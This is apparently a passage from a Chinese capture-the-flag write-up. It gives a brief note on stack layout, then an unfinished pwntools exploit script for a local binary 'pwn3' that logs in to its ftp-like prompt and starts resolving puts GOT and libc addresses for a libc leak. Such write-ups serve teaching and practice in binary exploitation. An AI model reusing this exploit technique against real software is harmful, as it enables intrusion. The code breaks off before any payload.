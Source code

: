 [![](assets/1701612281-9d0641ed92afd99830907cd78794ab6b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718223928-e6442fb8-2578-1.png)

esp中存储着main()的ebp，我们如果要写入函数以及参数并且调用，可以写入esp+4,esp-4，也就是前后各一位，这样的话预留返回地址就是main(),栈会立即进行调用

**exp2:**

```plain
from pwn import *
p = process('./pwn3')
context.log_level='debug'
context.arch='i386'

elf = ELF('./pwn3')
libc = ELF('./libc.so')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def put(x,y):
    sl('put')
    ru(":")
    sl(x)
    ru(":")
    sl(y)
def get(z):
    sl('get')
    ru(":")
    sl(z)
r
sla(":",'rxraclhm')
pause()
ru("ftp>")
puts=elf.got['puts']
puts_libc=libc.symbols['puts']
```